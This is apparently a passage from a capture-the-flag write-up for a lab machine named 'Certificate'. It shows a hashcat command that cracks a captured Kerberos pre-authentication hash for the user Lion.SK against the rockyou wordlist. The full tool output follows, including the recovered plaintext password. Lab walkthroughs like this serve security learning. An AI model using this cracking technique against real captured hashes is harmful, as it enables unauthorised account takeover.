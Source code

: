 ![Description](/assets/images/Certificate/5.png)

now that we have two hashes for Lion.SK user, let’s try to crack them.

```powershell
──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ hashcat -m 19900 -a 0 hashes.txt  /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 5 3600 6-Core Processor, 4301/8666 MB (2048 MB allocatable), 5MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx
                                                          
```